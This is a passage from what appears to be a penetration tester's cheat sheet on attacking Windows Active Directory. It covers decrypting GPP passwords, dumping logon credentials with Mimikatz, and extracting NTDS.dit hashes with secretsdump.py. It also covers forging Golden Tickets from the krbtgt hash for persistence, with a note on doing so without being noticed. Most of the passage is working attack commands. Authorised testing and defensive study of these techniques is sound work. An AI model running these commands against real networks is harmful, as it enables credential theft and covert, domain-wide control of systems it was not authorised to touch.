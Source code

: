   * Metasploit  
    msfconsole has a module for this, just seach for gpp
  * gpp-decrypt  
    If you find the cred's manually, you can use gpp-decrypt to decrypt the "cpassword=<blob/blob>"

### Mimikatz
  ```cmd
  mimikatz.exe
  mimikatz > privilege::debug
  mimikatz > sekurlsa::logonPasswords
  ```
## Post-Compromise (We own the domain)
### Strategery
  - Provide as much value to the client as possible
    * Try a different attack path
    * Crack all of the passwords
    * Enumerate shares for sensitive info
  - Persistence
    * What happens if our Domain account access i slost
    * Can we create persistence without being noticed (account creation, etc)
    * Create a Golden Ticket
  - Smoke a cigar and enjoy a couple of fingers of good scotch
### Dump NTDS.dit
  * Secretsdump.py
    ```bash
    secretsdump.py <domain>/<user>:'<password>'@<ip> -just-dc-ntlm
    ```
### Golden Ticket (Persistence)
  > compromised krbtgt account. Allows us to grant tickets however we want. Can access any resource or system on the domain  

  * Mimikatz
    * We need the krbtgt hash and the domain SID
    ```cmd
    mimikatz.exe
    privilege::debug
    lsadump::lsa /inject /name:krbtgt
    # copy ntlm hash and domain sid
    kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<krbtgt hash> /id:500 /ptt
    # /User does not have to be a real user
    misc::cmd # Opens a cmd shell with the Golden Ticket
    ```
  * Additional mimikatz commands to exploit golden ticket
    ```cmd
    # export to .kirbi
    kerberos::golden /User:Administrator /domain: <domain> /sid: <domain sid> /krbtgt: <krbtgt hash> /id: 500 /ticket
    ```
    ```bash
    # convert kirbi to ccache for use on linux with impacket
    ticketConverter.py ticket.kirbi ticket.ccache
